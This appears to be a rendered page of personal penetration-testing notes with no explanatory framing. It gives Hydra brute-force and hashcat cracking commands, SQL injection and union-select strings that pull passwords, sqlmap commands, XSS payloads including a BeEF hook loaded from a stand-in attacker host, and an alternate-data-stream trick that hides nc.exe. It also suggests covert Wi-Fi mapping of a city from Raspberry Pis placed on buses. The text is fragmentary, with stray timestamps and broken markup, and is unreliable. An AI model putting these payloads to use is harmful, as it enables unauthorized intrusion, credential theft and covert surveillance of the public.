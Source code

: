 If you don't have a USB Wi-Fi adapter you can still conduct a Wi-Fi assessment scan using the built-in netsh tool on your host Windows operating system.
First, disconnect your host system from a wireless network (if you are already connected).
Next, open a Command Prompt on your host Windows system. Run the command shown below to perform the following actions:

FOR /L %N IN () DO @netsh wlan show networks mode=bssid | findstr "^SSID Signal" && ping -n 16 127.0.0.1 >NUL && cls



With WiFi, an Alfa cards are my favorite to use, plug into your computer --> lovely.  Fun fact, the default antennae that come with Alfa card are 5dbi I think.
I've been quite successful adding a better antennae, say 12dbi e.g. (4-Pack 12dBi 2.4GHz WiFi Antenna with RP-SMA Connector for WiFi Router Booster on amazon) pretty inexpensive to greatly increase your range.
Then you can even put these on raspberrypi's, attach portable battery packs, place on buses or mass transport, and you can well map a crowded city very nicely :-).


OnlinePasswordGuessing

hydra -l <user> -P passwords.txt ssh://10.10.75.1
hydra -l <user> -P passwords.txt smb://10.10.75.1
hydra -L user.txt -p <password> ssh://10.10.75.1

hashcat -m <typeofhash> -a <attackmode> -o <outputfile> -r <rulesfile> <hashfile> <wordslistfile> 
hashcat64.exe -a 0 -m 0 -o OUTPUT2.txt -r rules\Incisive-leetspeak.rule MD5.txt password.lst

' or 1=1; --

Rules for Sqlmap:
1:38
1. Always use a valid URL (never a url that returns an error)
1:38
2. Always put the URL in "quotes"

http://testphp.vulnweb.com/
sqlmap -u "<url>" 
sqlmap -u "<url>" --dbs


<script>alert(1);</script>
<script src=http://attackerip:3000/beef/hook.js" />


select <field> from <table> where variable = '<value>';
select * from users where variable = '<value>';
select * from users where variable = 'fred';
' or '1'='1
SELECT * FROM users WHERE username='' OR '1'='1';
NOUSER' union select username, password from users where username !='
SELECT * FROM users WHERE username='NOUSER' union select username, password from users where username !=''


MarkDown
:. From the Current line
.,$ s/.*/+ `&`: 

more < test.txt:nc.exe > nc.exe

copy <file> \\?\c:\demo\CON